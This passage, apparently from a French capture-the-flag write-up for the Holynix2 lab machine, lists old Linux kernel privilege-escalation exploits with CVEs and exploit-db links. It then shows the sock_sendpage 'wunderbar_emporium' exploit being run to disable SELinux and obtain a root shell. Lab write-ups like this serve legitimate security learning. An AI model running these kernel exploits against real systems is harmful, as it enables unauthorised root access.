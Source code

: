 ```shellsession
  [11] pipe.c_32bit
      CVE-2009-3547
      Source: http://www.securityfocus.com/data/vulnerabilities/exploits/36901-1.c
  [12] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] sock_sendpage
      Alt: wunderbar_emporium       CVE-2009-2692
      Source: http://www.exploit-db.com/exploits/9435
  [15] sock_sendpage2
      Alt: proto_ops       CVE-2009-2692
      Source: http://www.exploit-db.com/exploits/9436
    [16] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
  [17] vmsplice1
      Alt: jessica biel       CVE-2008-0600
      Source: http://www.exploit-db.com/exploits/5092
```

Je me suis arrêté sur `sock_sendpage` :

```shellsession
amckinley@holynix2:/tmp/wunderbar_emporium$ ./wunderbar_emporium.sh 
 [+] MAPPED ZERO PAGE!
 [+] Resolved selinux_enforcing to 0xc04adf54
 [+] Resolved selinux_enabled to 0xc04adf58
 [+] Resolved security_ops to 0xc04ac4a0
 [+] Resolved sel_read_enforce to 0xc01dea10
 [+] Resolved audit_enabled to 0xc049c3a0
 [+] got ring0!
 [+] detected 2.6 style 8k stacks
sh: mplayer: not found
 [+] Disabled security of : nothing, what an insecure machine!
 [+] Got root!
# id
uid=0(root) gid=0(root) groups=100(users)
```

*Publié le 5 décembre 2022*


